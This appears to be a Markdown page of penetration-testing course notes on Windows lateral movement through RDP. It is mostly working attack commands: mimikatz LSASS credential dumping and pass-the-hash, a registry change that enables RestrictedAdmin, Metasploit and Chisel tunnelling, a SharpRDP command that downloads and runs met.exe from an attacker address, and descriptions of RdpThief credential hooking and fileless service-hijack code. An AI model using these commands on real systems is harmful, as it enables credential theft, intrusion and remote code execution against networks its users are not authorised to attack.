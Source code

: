 ## RDP

RDP is a multichannel network protocol developed by Microsoft and is used for communication
between Terminal Servers and their clients. When an RDP connection is created, the NTLM hashes will reside in memory for the duration of
the session. The session does not terminate without a proper logout, which means simply
disconnecting from the sessions will leave the hashes in memory.We can dump the hash if we find a RDP jump server.

```
mimikatz # privilege::debug
mimikatz # !processprotect /process:lsass.exe /remove
mimikatz # sekurlsa::logonpasswords
```

We can also use /restrictedadmin argument to mstsc.exe, so we don't need to supply clear text password to RDP

pass the hassh, and lauch a mstsc.exe with admin's hash
```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::pth /user:admin /domain:corp1
/ntlm:2892D26CDF84D7A70E2EB3B9F05C425E /run:"mstsc.exe /restrictedadmin"
```
In the case that restrictedadmin is disable on target machine, we can enable it first.

lanuch an admin powershell
```
mimikatz # sekurlsa::pth /user:admin /domain:corp1
/ntlm:2892D26CDF84D7A70E2EB3B9F05C425E /run:powershell
```
Access to remote resource through a powershell session and enable the restrictedadmin mode
```
PS C:\Windows\system32> Enter-PSSession -Computer appsrv01

[appsrv01]: PS C:\Users\admin\Documents> New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0
```

#### Reverse RDP Proxying with metasploit

configure a reverse tunnel through the Meterpreter session and use that with a SOCKS proxy

```
msf5 exploit(multi/handler) > use multi/manage/autoroute
msf5 post(multi/manage/autoroute) > set session 1
msf5 post(multi/manage/autoroute) > exploit

```

```
post(multi/manage/autoroute) > use auxiliary/server/socks4a
msf5 auxiliary(server/socks4a) > set srvhost 127.0.0.1
srvhost => 127.0.0.1
msf5 auxiliary(server/socks4a) > exploit -j
```

add proxy rules
```
kali@kali:~$ sudo bash -c 'echo "socks4 127.0.0.1 1080" >> /etc/proxychains.conf'
```

RDP to remote target
```
kali@kali:~$ proxychains rdesktop 192.168.120.10
```

#### Reverse RDP Proxying with Chisel
[Chisel](https://github.com/jpillora/chisel.git) is an open-source tunneling software written in Golang. It works by setting up a TCP
tunnel and performing data transfers over HTTP, while securing it with SSH.

compile chisel on Kali with the go build
```
kali@kali:~$ sudo apt install golang
kali@kali:~$ git clone https://github.com/jpillora/chisel.git
kali@kali:~$ cd chisel/
kali@kali:~/chisel$ go build
```

commpile Chisel for windows exe, -ldflags -s -w to strip debugging info

```
env GOOS=windows GOARCH=amd64 go build -o chisel.exe -ldflags "-s -w"
```

Set up the chisel server on kali
```
kali@kali:~/chisel$ ./chisel server -p 8080 --socks5
```

enable ssh password fo the tunnel, and set up ssh portfoward
```
kali@kali:~$ sudo sed -i 's/#PasswordAuthentication yes/PasswordAuthentication yes/g' /etc/ssh/sshd_config
kali@kali:~$ sudo systemctl start ssh.service
kali@kali:~$ ssh -N -D 0.0.0.0:1080 localhost
```

trafer chisel.exe to windows, and run the client to connect to kali server
```
C:\Tools> chisel.exe client kaliserverIP:8080 socks
```

now RDP with proxychains
```
kali@kali:~$ sudo proxychains rdesktop 192.168.120.10
```

#### RDP remote code execution
The RDP application (mstsc.exe) builds upon the terminal services library mstscax.dll. This
library exposes interfaces to both scripts and compiled code through COM objects. We can use a tool called [SharpRDP](https://github.com/0xthirteen/SharpRDP) to exeucte command remotely using RDP.
```
C:\Tools> sharprdp.exe computername=appsrv01 command="powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.120/met.exe', 'C:\Windows\Tasks\met.exe'); C:\Windows\Tasks\met.exe" username=corp1\dave password=lab
```
#### Steal Credentials from RDP

We can modify APIs and redirect execution to custom code. we could overwrite the initial instructions of an API at the assembly level with code that transfers
execution to any custom code we want. The Microsoft-provided unmanaged (Detours library)[https://github.com/microsoft/Detours/wiki/Using-Detours] makes this possible.

Our goal is to leverage API hooking to steal the clear text credentials entered into mstsc when
they are processed by relevant APIs. APIs responsible for handling
the username, password, and domain are CredIsMarshaledCredentialW, CryptProtectMemory,
and SspiPrepareForCredRead.

As a result of this research, MDSec released [RdpThief](https://github.com/0x09AL/RdpThief), which uses Detours to hook these APIs.
The hooks in this tool will execute code that copies the username, password, and domain to a file.
Finally, RdpThief allows the original code execution to continue as intended.

We can create a c# script, [rdpinject.cs](/11WindowsLateralMovement/rdpinject.cs) to search all the mstsc,rdp process, then inject Rdpthief.dll into the code, execute our code ,get password/username and resume program execution. 

## Fileless Lateral Movement in C#

First, our code must authenticate to the target host. Following that, it must execute the desired code. Authentication to the DCE/RPC interface and the service control manager is handled by the unmanaged OpenSCManagerW API. The API is executed in the context of the access token of the executing thread. If authentication is successful, a handle is returned that is used to interact with the service control manager. We will then use the OpenService API to open an existing service and invoke ChangeServiceConfigA to change the binary that the service executes. Once the service binary has been updated, we will issue a call to StartServiceA, which will execute the service
binary and give us code execution on the remote machine.
The completed code is here [filelessdrop.cs](/11WindowsLateralMovement/filelessdrop.cs), the code is of pof to kick off a notepad, but you can modify it to run your shell.
You should also look into [SCShell.py](https://github.com/Mr-Un1k0d3r/SCShell)
